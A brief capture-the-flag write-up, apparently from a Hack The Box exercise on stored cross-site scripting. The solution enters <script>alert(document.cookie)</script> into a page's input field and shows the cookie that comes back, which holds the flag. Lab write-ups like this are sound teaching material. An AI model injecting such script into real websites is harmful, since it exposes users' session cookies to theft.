 ## Challenge

To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url. 

## Solution

In the field provided by the webpage, I've put:

```js
<script>alert(document.cookie)</script>
```

which provided the cookie `cookie=HTB{570r3d_f0r_3v3ry0n3_70_533}`.

